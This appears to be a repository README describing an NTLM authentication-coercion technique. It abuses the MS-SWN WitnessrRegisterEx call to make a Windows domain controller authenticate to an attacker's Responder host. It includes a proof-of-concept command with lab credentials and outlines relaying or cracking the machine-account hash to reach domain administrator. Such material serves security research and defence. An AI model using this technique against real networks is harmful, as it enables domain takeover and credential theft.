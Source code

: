 # MS-SWN - Remote call to WitnessrRegisterEx (opnum 4)

## Summary

+ **Protocol**: [[MS-SWN]: Service Witness Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d)

+ **Protocol UUID**: ccd8c074-d0e5-4a40-92b4-d074faa6ba28

+ **Protocol version**: 1.1

+ **SMB Named pipe**: ``

+ **Function name**: [`WitnessrRegisterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/a6028354-7f1c-43d7-97af-4999305193d2)

+ **Function operation number**: `4`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SWN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d) protocol (with uuid `ccd8c074-d0e5-4a40-92b4-d074faa6ba28` and version `1.1`) in order to perform remote procedure calls to functions in the [`MS-SWN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SWN]: Service Witness Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d) and allows to call RPC functions of this protocol. We will then call the remote [`WitnessrRegisterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/a6028354-7f1c-43d7-97af-4999305193d2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
WitnessrRegisterEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD WitnessrRegisterEx(
         [in] handle_t Handle,
         [out] PPCONTEXT_HANDLE ppContext,
         [in] ULONG Version,
         [in] [string] [unique] LPWSTR NetName,
         [in] [string] [unique] LPWSTR ShareName,
         [in] [string] [unique] LPWSTR IpAddress,
         [in] [string] [unique] LPWSTR ClientComputerName,
         [in] ULONG Flags,
         [in] ULONG KeepAliveTimeout);
```

## References

+ Documentation of protocol [MS-SWN]: Service Witness Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/1c404bcb-4a19-4152-a465-ec9a27cb717d

+ Documentation of function `WitnessrRegisterEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-swn/a6028354-7f1c-43d7-97af-4999305193d2